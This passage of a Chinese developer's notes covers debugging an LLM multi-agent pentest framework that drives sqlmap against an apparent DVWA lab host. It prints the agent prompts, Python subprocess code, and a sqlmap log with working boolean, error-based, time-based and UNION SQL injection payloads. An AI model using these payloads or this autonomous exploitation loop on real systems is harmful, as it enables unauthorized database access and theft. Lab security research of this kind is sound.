args = shlex.split(cmd)  # 自动处理引号和空格
process = subprocess.Popen(
    args,
    stdout=subprocess.PIPE,
    stderr=subprocess.PIPE,
    text=True
)

# 实时读取输出
lines = ""
for line in process.stdout:
    print(line, end="")
    lines += line
# 等待命令完成
process.wait()
```
成功自动化扫出bug


但是，又发现一个问题，成功完成任务后并未自动停止。
好吧，是没有完成任务。。

you are good at using sqlmap. the url is http://10.24.4.144:84/vulnerabilities/sqli/?id=1&Submit=Submit# just use sql injection with sqlmap to get all the table name of database.
死活不行

you are good at using sqlmap. the url is http://10.24.4.144:84/vulnerabilities/sqli/?id=1&Submit=Submit# please check if there is sql injection bug

模型持续拓展，一直不停，

qwen-max为闭源版，再次更换模型为qwen2.5-72b-instruct

you are good at using sqlmap. the url is http://10.24.4.144:84/vulnerabilities/sqli/?id=1&Submit=Submit# please check if there is sql injection bug

api调用着，然后同时本地部署
```bash
GIT_LFS_SKIP_SMUDGE=1 git clone https://huggingface.co/Qwen/Qwen2.5-72B-Instruct

cd Qwen2.5-72B-Instruct

# 查看 LFS 文件指针（未下载时显示指针哈希）
git lfs ls-files

git lfs pull #全部文件
```

you are good at using sqlmap. the url is http://10.24.4.144:84/vulnerabilities/sqli/?id=1&Submit=Submit# please check if there is sql injection bug,if there is, just answer yes,that's ok. do not need continue


## 重新debug整个流程极其细节
当了解到code-server并成功应用后，
从原来的jupyter只能调试ipynb，到现在code-server可以调试大型py项目，
由此有了调试基础


我们这里仍然以上面的prompt为例子，

you are good at using sqlmap. the url is http://10.24.4.144:84/vulnerabilities/sqli/?id=1&Submit=Submit# please check if there is sql injection bug,if there is, just answer yes or no


在指定文件，如下图选择即可debug


当我们输入上述用户请求promt时，
<font color='red'>1.1 plan agent根据user input制定plan</font>首先plan agent将按照其模板，请求模型返回一个plan规划

>这里模型返回了
'1. [current step] Use sqlmap to test the URL http://10.24.4.144:84/vulnerabilities/sqli/?id=1&Submit=Submit for SQL injection vulnerabilities.'


<font color='red'>1.2 提取subplan，current_step</font>
_get_current_subplan函数将提取当前步骤的子plan，（比如说如果当前是第3步计划的第3.1步）
```python
   def _get_current_subplan(self, plan: str):
        """ Get the current subtask """
        insts = plan.split('\n')#分割各行，每行对应plan的一个步骤
        instNow = ''
        for self.current_subplan in insts:
            if '[current step]' in self.current_subplan:
                instNow = self.current_subplan
                break
        instNow = instNow.replace("current step", "")#这里之前代码没考虑inplace操作，还是个bug
        return instNow
```

_extract_step函数根据 subplan提取出 当前步骤current_step为第几步，
```python
    def _extract_step(self, output_string):
        # Use regular expressions to extract the sign (assuming the sign is a number followed by a period, like "2.")
        # \d：表示一个十进制的数字 [0-9]
        # \s：表示一个空白字符（空格，tab，换页符等）
        match = re.match(r"\s*(\d+(\.\d+)?)[\.\s]", output_string)
        if match:
            return match.group(1)  # Returns the matching label part
        return None
```

> 这里subplan即计划第一步
> current_step为1

这里设置若并未提取到current_step即 it is none则break出错
这里设置说某一个步骤重复三次，就continue并重新来制定计划


<font color='red'>2. 验证计划可行性agent进行计划验证</font>
分为三种类型
1.仅仅分析结果即可，
2.工具自动执行，
3.手动操作并获取结果


<font color='red'>3. 循环再次重复，不过由plan agent变成 refine agent</font>
然后重复上述步骤。

> debug在这里就是，
> self.user_query还是 用户输入的请求
> 然后self.last_result就是上次sqlmap的输出结果


ok，至此，为什么一直在持续循环的原因就找到了。
因为缺少一个结果分析agent的调用， 根据计划执行成果，判断用户请求是否完成。。


## 做出初步修改
1. 
根据我的logic

将上述验证plan类型后的代码逻辑进行修改，
auto,manu类型将进行各种结果输入，

然后这两个执行后，均有一个 analyst分析下给出answer，
然后最后拿一个 validator agent来验证 answer是否满足用户请求。

只有在不满足的情况下，才继续进入refiner的循环，
然后，这里暂且仍然把 上一个subplan的执行结果，连同计划丢给refiner

2. refiner修改计划时， 必须结合用户请求。
   
   

### 执行分析
you are good at using sqlmap. the url is http://10.24.4.144:84/vulnerabilities/sqli/?id=1&Submit=Submit# please check if there is sql injection bug,if there is, just answer yes or no


🔧 Task analysis is:
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.6.4#stable}
|_ -| . [.]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 08:05:09 /2025-03-07/

[08:05:09] [INFO] resuming back-end DBMS 'mysql' 
[08:05:09] [INFO] testing connection to the target URL
got a 302 redirect to 'http://10.24.4.144:84/login.php'. Do you want to follow? [Y/n] Y
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=423r46tfrdh...ou9hcr1ir3;security=impossible;security=impossible'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: id=1' OR NOT 7795=7795#&Submit=Submit

    Type: error-based
    Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)
    Payload: id=1' AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x7176767671,(SELECT (ELT(8161=8161,1))),0x716b786a71,0x78))s), 8446744073709551610, 8446744073709551610)))-- vDFV&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 6517 FROM (SELECT(SLEEP(5)))Lejl)-- vjiG&Submit=Submit

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: id=1' UNION ALL SELECT CONCAT(0x7176767671,0x5561745048714f7a6c70554b587346676d6177556b7a6b734147716a76686a667a7179557a74576e,0x716b786a71),NULL#&Submit=Submit
---
[08:05:09] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP, PHP 5.5.9
back-end DBMS: MySQL >= 5.5
[08:05:09] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.24.4.144'
[08:05:09] [WARNING] your sqlmap version is outdated

[*] ending @ 08:05:09 /2025-03-07/


if already satisfy user:yes

> 模型认为上述结果已经说明了，在该url存在sql injection 即sql 注入漏洞

根据以下博客，
https://blog.csdn.net/qq_51325799/article/details/129430388

原来上述结果是足以说明，网址存在漏洞了。


> pay attention to url http://10.24.4.144:84/ . please check if there is sql injection bug. just answer yes or no
> 不给 注入id，就是分析不出来
>pay attention to url http://10.24.4.144:84/vulnerabilities/sqli/?id=1&Submit=Submit# . please check if there is sql injection bug. just answer yes or no
> 给了id 就分析出来了


存在注入则，查询当前用户下的所有数据库

pay attention to url http://10.24.4.144:84/vulnerabilities/sqli/?id=1&Submit=Submit# . please give me the database tables and columns using sql injection.please try to do not make me manu operate.


虽然代码又出了问题，但是好像确实是找到了

pay attention to url http://10.24.4.144:84/vulnerabilities/sqli/?id=1&Submit=Submit# . please give me the database's table names using sql injection.please try to do not make me manu operate.

